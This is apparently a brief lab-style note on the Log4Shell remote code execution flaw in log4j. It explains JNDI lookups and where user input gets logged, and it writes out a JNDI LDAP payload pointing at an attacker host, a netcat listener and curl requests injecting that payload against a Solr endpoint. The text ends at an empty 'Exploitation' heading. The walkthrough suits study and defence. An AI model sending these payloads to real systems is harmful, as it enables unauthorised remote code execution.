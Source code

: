 log4j packege in java has rce.

log4j is java logging package. it is used in apache,apple icloud,minecraft etc.

## How vuln work 

A single string of text can trigger an application to reach out to an external location if it is logged via the vulnerable instance of log4j. 

payload : 
`${jndi:ldap://ATTACKERCONTROLLEDHOST}`

This syntax indicates that the log4j will invoke functionality from `JNDI`.(Java Naming and Directory Interface) . ltimately, this can be used to access external resources, or "references," which is what is weaponized in this attack. 


**where could we enter this syntax?**

Anywhere that has data logged by the application.

- Input boxes, user and password login forms, data entry points within applications
- HTTP headers such as User-Agent, X-Forwarded-For, or other customizable headers
- any placed for user supplied data.


**How to verify**

listen on your computer: `nc -nvlp 1234`
send request : `curl 'http://target_ip:target_port/somepath/anotherpath/some_page?foo=$\{jndi:ldap://your_ip:your_port\}' `

eg :

`curl 'http://10.10.234.60:8983/solr/admin/cores?foo=$\{jndi:ldap://10.11.57.82:1234\}' `


***

## Exploitation

